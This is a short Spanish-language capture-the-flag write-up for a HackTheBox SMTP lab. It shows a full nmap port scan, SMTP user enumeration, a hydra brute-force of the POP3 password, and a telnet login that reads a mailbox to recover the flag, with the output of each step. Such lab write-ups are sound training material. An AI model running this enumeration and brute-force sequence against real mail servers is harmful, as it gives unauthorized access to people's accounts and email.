

# Laboratorio SMTP 📨

Como primer punto tenemos que **enumerar** los puertos disponibles en la máquina objetivo

```bash
nmap -p- -sS -Pn -n <IP> -oN ports
```

**Output**

<p align="center">
    
</p>

---

Enumeramos los usuarios disponibles en el servicio `SMTP`
* `smtp-user-enum -M RCPT -U users.txt -D inlanefreight.htb -t [IP] -p 25`

**Output**
```
[IP]: marlin@inlanefreight.htb exists
```

---

Ahora **realizaremos fuerza bruta** con el usuario `marlin`
* `hydra -l marlin@inlanefreight.htb -P passwords.txt [IP] pop3`

    * `passwords.txt` Recurso dado por HackTheBox

**Output**
```
[110][pop3] host: [IP]   login: marlin@inlanefreight.htb   password: poohbear
```

---

Nos autenticamos en el servicio `POP3`

1. `telnet [IP] 110`
2. 
```
USER marlin@inlanefreight.htb
+OK Send your password
PASS poohbear
+OK Mailbox locked and ready
```

3. Listamos los correos con `LIST`
```
+OK 1 messages (601 octets)
1 601
```

4. Leemos el contenido con `RETR [ID]`
```
Hi admin,

How can I change my password to something more secure? 

flag: HTB{w34k_p4$$w0rd}
```